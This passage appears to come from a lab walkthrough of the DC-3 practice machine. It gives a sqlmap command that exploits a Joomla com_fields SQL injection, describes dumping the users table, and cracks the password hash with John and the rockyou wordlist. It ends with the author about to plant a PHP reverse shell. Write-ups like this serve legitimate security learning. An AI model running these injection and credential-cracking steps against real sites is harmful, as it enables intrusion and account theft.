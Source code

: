 So after running the recommended payload 

```bash
index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27` with sqlmap `sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
``` 
I was able to enumerate the databases available.  Within the joomladb db there was a users table which I was able to dump the credentials from. 

[<img src="../images/dc-3/dump_creds.png"
  style="width: 800px;"/>](../images/dc-3/dump_creds.png)

The password was hashed as expected so I used John to crack the password. 

```bash
john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

[<img src="../images/dc-3/john_password.png"
  style="width: 800px;"/>](../images/dc-3/john_password.png)

With the credentials `admin:snoopy` I was able to login the administrator page for Joomla.  I knew the best way to to gain a shell was to inject my PHP reverse shell code somewhere within the website.  
